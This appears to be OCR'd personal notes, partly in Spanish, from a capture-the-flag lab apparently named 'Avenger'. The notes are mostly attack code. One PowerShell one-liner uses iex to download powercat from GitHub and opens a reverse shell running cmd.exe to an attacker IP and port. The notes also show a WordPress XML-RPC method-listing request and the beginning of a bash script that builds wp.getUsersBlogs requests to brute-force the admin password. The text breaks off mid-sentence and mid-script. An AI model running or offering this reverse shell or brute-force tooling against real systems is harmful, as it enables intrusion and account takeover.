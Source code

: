 






# Crear un archivo .bat





LHOST=10.8.163.249
LPORT=9999
rshell="Avenger.txt"
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /home/kali/Downloads/THM/$rshell
This encodes the pow








┌──(kali㉿kali)-[~/Downloads/avenger]
└─$ cat file.xml                                                          
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>





-------------------------------------------------------------


#!/bin/bash

# Ctrl + C
trap ctrl_c SIGINT

function ctrl_c(){
    echo -e "\n\n[!] Saliendo..."
    exit 1
}

function createXML(){
    password=$1

    xmlFile="<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value>admin</value></param>
    <param><value>$password</value></param>
  </params>
</methodCall>"

